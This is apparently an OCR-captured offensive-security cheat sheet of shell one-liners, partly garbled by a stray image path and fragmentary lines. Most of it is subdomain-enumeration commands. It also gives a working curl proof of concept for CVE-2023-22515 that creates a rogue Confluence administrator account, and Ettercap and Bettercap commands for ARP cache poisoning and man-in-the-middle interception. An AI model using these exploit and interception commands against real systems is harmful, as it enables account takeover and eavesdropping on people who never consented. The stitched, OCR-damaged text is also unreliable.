 
##  
curl -s "https://crt.sh/?q=%25.$DM&output=json" | jq -r '.[].name_value' 2>/dev/null | sed 's/\*\.//g' | sort -u | grep -o "\w.*$DM" | anew -q .tmp/cert.list


##  
curl -s "https://api.hackertarget.com/hostsearch/?q=$DM" | grep -o "\w.*$DM" | anew -q .tmp/htarget.list


##  
curl -s "https://riddler.io/search/exportcsv?q=pld:$DM" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep -o "\w.*$DM" | anew -q .tmp/riddler.list



##   PoC for CVE-2023-22515: 
curl -k -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=adm1n&fullName=admin&email=admin@confluence&password=adm1n&confirm=adm1n&setup-next-button=Next" http://confluence/setup/setupadministrator.action 
##   (login with adm1n/adm1n)



##  
assetfinder --subs-only $DM | anew -q .tmp/assetfinder.list
    python3 ~/tools/Sublist3r/


##  
sublist3r.py -d $DM -o .tmp/sublister.list &> /dev/null
   
 
 ##  
 subfinder -silent -d $DM -all -t 100 -o .tmp/subfinder.list &> /dev/null
 
 
##  
amass enum -passive -d $DM -o .tmp/amass.list &> /dev/null


##  
crobat -s $DM | anew -q .tmp/crobat.list



##  ARP Cache Poisoning with Ettercap (old school)
ettercap -T -q -i <interface> -w dump -M ARP /<ip_target>/ /<ip_gateway>/


##  Note: Do not forget to enable routing, ##  otherwise it will cut internet connection for targets.
##  Bettercap Web UI
bettercap -caplet https-ui -iface <interface>

